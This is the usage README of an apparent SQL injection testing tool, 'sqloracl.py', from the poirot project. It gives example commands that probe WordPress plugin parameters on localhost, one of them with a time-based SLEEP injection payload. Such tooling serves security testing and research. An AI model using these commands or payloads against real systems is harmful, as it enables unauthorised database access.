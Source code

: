 # oracleSQL
pour PFGimenez/poirot
## Utilisation
retourne 0 si la chaine de caractère est syntaxiquement valide, 1 sinon<br>

**`url`**`string` url of the target<br>
**`payload`**`dict` default params (GET) or payload (POST)  			`❗ value and key between SIMPLE quotes` <br>
**`vulnparam`**`string` name of param on which we add injtxt<br>
**`[errmode]`**`string` different modes for detect errors (optional)<br>
**`injtxt`**`string` injection text 									`❗ between DOUBLE quotes`<br>
#### GET
```
python sqloracl.py <url> GET <payload> <vulnparam> <errmode> <injtxt>
```
exemple :
```
python sqloracl.py http://localhost/injections/wordp/wp-admin/wp-admin/admin.php GET "{'action':'dt_duplicate_post_as_draft','post':''}" post default ""
```
#### POST
```
python sqloracl.py <url> POST <payload> <vulnparam> <errmode> <injtxt>
```
exemple :
```
python sqloracl.py http://localhost/injections/wordp/wp-admin/admin-ajax.php POST "{'action':'spAjaxResults','pollid':'2'}" pollid default " AND (SELECT 1158 FROM (SELECT(SLEEP(5)))eipW)"
```
